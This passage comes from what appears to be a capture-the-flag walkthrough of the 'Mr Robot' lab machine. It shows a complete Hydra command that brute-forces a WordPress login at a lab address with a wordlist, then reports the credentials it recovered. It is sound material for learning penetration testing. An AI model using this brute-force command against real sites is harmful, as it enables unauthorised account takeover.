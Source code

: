 ![IMG-17](/assets/Mr-Robot-CTF-Images/Mr-Robot-CTF%20(8).png)

Now we can run Hydra again with "Elliot" as the username and use the wordlist for the password field.

```bash
hydra -l Elliot -P new-fsocity.dic 10.10.123.154 http-post-form "/wp-login:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.123.154%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```

The results of the Hydra brute-force come back with the login as "Elliot" and the password as "ER28-0652"

![IMG-18](/assets/Mr-Robot-CTF-Images/Mr-Robot-CTF%20(9).png)
